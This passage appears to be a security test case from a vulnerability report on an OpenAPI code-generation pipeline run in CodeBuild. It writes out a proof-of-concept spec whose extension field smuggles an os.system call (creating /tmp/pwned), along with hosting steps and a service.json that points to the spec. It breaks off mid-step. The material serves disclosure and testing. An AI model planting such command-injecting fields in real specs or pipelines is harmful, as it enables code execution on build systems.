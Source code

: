 - Security Test Case:
    1. **Prepare Malicious OpenAPI Spec:** Create a file named `malicious-openapi.yaml` with the following content. This example attempts to create a file `/tmp/pwned` in the CodeBuild environment during code generation.
    ```yaml
    openapi: 3.0.0
    info:
      title: Malicious API
      version: 1.0.0
    servers:
      - url: http://example.com
    paths:
      /pwned:
        get:
          summary: Triggers malicious command
          operationId: pwnedOperation
          x-codegen-post-process-file: "os.system('touch /tmp/pwned')" # [MALICIOUS]: Attempts to execute system command
          responses:
            '200':
              description: Success
    ```
    2. **Host Malicious Spec:** Host `malicious-openapi.yaml` at a publicly accessible URL, for example, using a simple HTTP server or a service like GitHub Gist raw content URL. Let's assume the URL is `https://example.com/malicious-openapi.yaml`.
    3. **Create `service.json`:** Create a file named `service.json` with the following content, replacing `<your_github_repo_uri>` and `<your_github_pat_secret_key>` with your GitHub repository details and the secret key you configured in Secrets Manager.
    ```json
    {
      "service": {
        "type": "spring",
        "name": "malicious-service",
        "description": "Service with malicious OpenAPI spec",
        "openapi": {
          "model": "https://example.com/malicious-openapi.yaml", # [MALICIOUS]: Points to the malicious OpenAPI spec URL
          "config": {
            "basePackage": "com.example.malicious",
            "groupId": "com.example.malicious",
            "artifactId": "malicious-service"
          }
        }
      },
      "scm": {
        "github": {
          "repo": "<your_github_repo_uri>",
          "secretKey": "<your_github_pat_secret_key>",
          "email": "none@none.com",
          "name": "Attacker"
        }
      },
      "iac": {
        "cloudformation": {
          "vpc": "<your_vpc_id>",
          "subnets": "<your_subnet_id-1>,<your_subnet_id-2>"
        }
      }
    }
    ```
    4. **Deploy Industry Toolkit:** If you haven't already, deploy the Industry Toolkit stack using CDK:
    ```bash
    cd tools/industry-toolkit